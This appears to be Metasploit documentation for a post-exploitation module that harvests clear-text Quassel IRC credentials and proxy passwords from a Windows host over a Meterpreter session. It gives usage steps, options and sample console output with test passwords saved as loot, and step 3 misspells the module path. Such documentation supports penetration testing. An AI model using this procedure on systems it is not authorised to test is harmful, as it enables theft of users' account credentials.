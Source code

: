 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the Quassel IRC Client.

  The Quassel IRC Client is avaialble from (https://quassel-irc.org/downloads).

  This module extracts information from the quasselclient.ini file in the "AppData\Roaming\quassel-irc.org" directory.

  This module extracts server information such as host name, port, account name, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/quasell_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Quassel irc's Quasselclient.ini file found
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_QuasselIRCquass_570372.ini

[+] 1\HostName=10.245.100.2
[+] 2\HostName=10.0.0.3
[+] 1\Port=4242
[+] 2\Port=1234
[+] 1\AccountName=Test
[+] 2\AccountName=Test#2
[+] 1\Password=tiaspbiqe2r
[+] 2\Password=tiaspbiqe2r
[+] 1\ProxyHostName=localhost
[+] 2\ProxyHostName=
[+] 1\ProxyPort=8080
[+] 2\ProxyPort=8080
[+] 1\ProxyUser=test
[+] 2\ProxyUser=
[+] 1\ProxyPassword=tiaspbiqe2r
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_EXTRACTIONquasse_134569.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```

msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Quassel irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Quassel irc's base folder found
[*] Found the folder containing specified artifact for quasselclient.ini.
[*] Quassel irc's Quasselclient.ini file found
[*] Processing C:\Users\test\AppData\Roaming\quassel-irc.org
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_QuasselIRCquass_310535.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\HostName=10.245.100.2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\HostName=10.0.0.3
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Port=4242
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Port=1234
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\AccountName=Test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\AccountName=Test#2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyHostName=localhost
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyHostName=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyUser=test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyUser=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPassword=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_EXTRACTIONquasse_967148.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
